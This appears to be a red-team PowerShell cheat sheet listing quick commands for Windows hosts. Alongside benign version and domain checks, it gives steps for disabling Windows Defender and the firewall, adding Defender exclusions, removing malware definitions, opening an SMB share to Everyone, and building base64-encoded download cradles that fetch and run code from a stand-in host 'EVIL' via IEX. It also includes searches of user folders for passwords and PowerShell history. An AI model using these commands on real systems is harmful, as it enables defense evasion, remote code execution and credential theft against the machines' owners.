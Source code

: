 ## PowerShell

* 32-bit PowerShell
   * `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`
* 64-bit PowerShell
   * `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
* Avoid truncation
   * `<do_something> | Out-String -Width 10000`
* Check .NET version
   * `[environment]::version`
   * Then check the build on: https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/how-to-determine-which-versions-are-installed
   * `4.0.30319.42000 == .NET Framework 4.6 and later`
* Check PowerShell version
   * `$PSVersionTable.PSVersion`
* Create SMB Share
   * `New-SmbShare -Name MyShare -Path C:\Windows\Tasks -FullAccess Everyone`
* Defender
   * Status
      * `Get-MpComputerStatus`
   * Disable
      * `Set-MpPreference -DisableRealtimeMonitoring $true`
   * Exclusion
      * `Add-MpPreference -ExclusionPath C:\Windows\Tasks`
   * Remove Definitions
      * `cmd /c "C:\program files\windows defender\MpCmdRun.exe" -removedefinitions -all`
* Disable Firewall
   * `Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False`
* Domain
   * `$env:USERDNSDOMAIN`
   * `Get-WmiObject Win32_ComputerSystem`
* Encode
   * `$text = "(New-Object System.Net.WebClient).DownloadString('http://EVIL/run.txt') | IEX"`
   * `$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)`
   * `$EncodedText = [Convert]::ToBase64String($bytes)`
* Execute Cradles
   * `(New-Object System.Net.WebClient).DownloadString('http://EVIL/run.txt') | IEX`
   * `iwr -uri http://EVIL/run.txt -UseBasicParsing | IEX`
   * Optional TLS v1.2
      * `[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12`
* Execution Policy
   * `Set-ExecutionPolicy Unrestricted -Scope CurrentUser`
* Find recent files
   * `ls C:\Users\ -Recurse | Where-Object {$_.LastWriteTime -lt (Get-Date).AddDays(-10)}`
* Grep
   * `ls -Path C:\Users\* -Recurse -EA Silent | Select-String -Pattern password`
* LanguageList
   * `Set-WinUserLanguageList -LanguageList en-US`
* Local Admin
  * `Get-LocalGroupMember -Group "Administrators"`
* PowerShell history
   * `ls C:\Users -Force -Recurse -Filter ConsoleHost_history.txt -EA Silent | cat`
